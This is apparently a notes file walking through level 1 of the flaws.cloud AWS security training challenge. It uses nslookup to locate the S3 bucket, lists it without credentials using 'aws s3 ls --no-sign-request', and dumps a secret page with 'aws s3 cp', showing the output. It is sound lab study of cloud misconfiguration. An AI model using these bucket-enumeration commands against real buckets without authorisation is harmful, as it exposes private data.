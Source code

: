 # flaws.cloud.notes
Notes on flaws.cloud

Site: http://flaws.cloud/

# Level 1

"This level is *buckets* of fun. See if you can find the first sub-domain."

"Need a hint? Visit Hint 1"

`nslookup flaws.cloud`

```
Non-authoritative answer:
Name:    flaws.cloud
Address:  52.218.225.114
```

`nslookup flaws.cloud.s3.amazonaws.com`

```
Non-authoritative answer:
Name:    s3-us-west-2-w.amazonaws.com
Address:  52.218.204.50
Aliases:  flaws.cloud.s3.amazonaws.com
```

What will help you for this level is to know its permissions are a little loose.

Need another hint? Go to Hint 2

Attempt to list all bucket files, passing "--no-sign-request" ie, Everyone public access

`aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2`

```
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2020-05-22 14:16:45       3162 index.html
2018-07-10 12:47:16      15979 logo.png  
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html
```

Dump secret file to console: 

`aws s3 cp s3://flaws.cloud/secret-dd02c7c.html - --no-sign-request --region us-west-2`

```
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
```